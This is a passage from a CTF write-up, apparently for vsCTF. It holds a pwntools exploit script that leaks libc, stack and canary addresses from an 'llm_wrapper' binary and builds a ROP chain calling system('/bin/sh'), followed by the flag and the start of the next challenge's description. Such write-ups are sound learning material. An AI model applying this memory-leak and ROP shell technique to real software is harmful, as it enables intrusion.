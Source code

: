 ```py
    p = remote('vsc.tf', 3756)
else:
    p = process('./llm_wrapper', aslr=1)
libc = ELF('/usr/lib/x86_64-linux-gnu/libc.so.6', False)
p.sendlineafter(b": ", token)
update(b'F'*0x8)

time_got = 0x407f28
libc.address = leak(time_got) - libc.symbols['srand']
log.success(f"libc base @ {hex(libc.address)}")

stack = leak(libc.symbols['environ'])
log.success(f"stack @ {hex(stack)}")

canary_addr = stack - 0x190
token_addr_ptr = stack - 0x168

canary = leak(canary_addr)
log.success(f"canary @ {hex(canary)}")

token_addr = leak(token_addr_ptr)
log.success(f"token_addr @ {hex(token_addr)}")

rop = ROP(libc)
pop_rdi_rbp = rop.find_gadget(['pop rdi', 'pop rbp', 'ret'])[0]
payload = b'F'*0x10 + p64(token_addr) + p64(8) * 2 + p64(0) + b'F'*8 + p64(canary) + b'A'*0x18
payload += p64(pop_rdi_rbp) + p64(next(libc.search(b'/bin/sh'))) + p64(0)
payload += p64(libc.symbols['system'])

update(payload)
pause()
choice(3)

p.interactive()
```

`vsctf{4n_llm_d3f1nit3ly_wr0t3_th@t_c0d3}`

## **Cosmic Ray v2**

*I couldn't solve it within the competition time, but I solve it additionally for learning.*

---

### **[0x00] Descriptions**

> WOOOOO IT’S BACK AND BETTER THAN EVER!!! This time I figured I should stop letting y'all write reviews. Too many people hurt my feelings :((((
>
> Author: Rench
>
> 28 solves
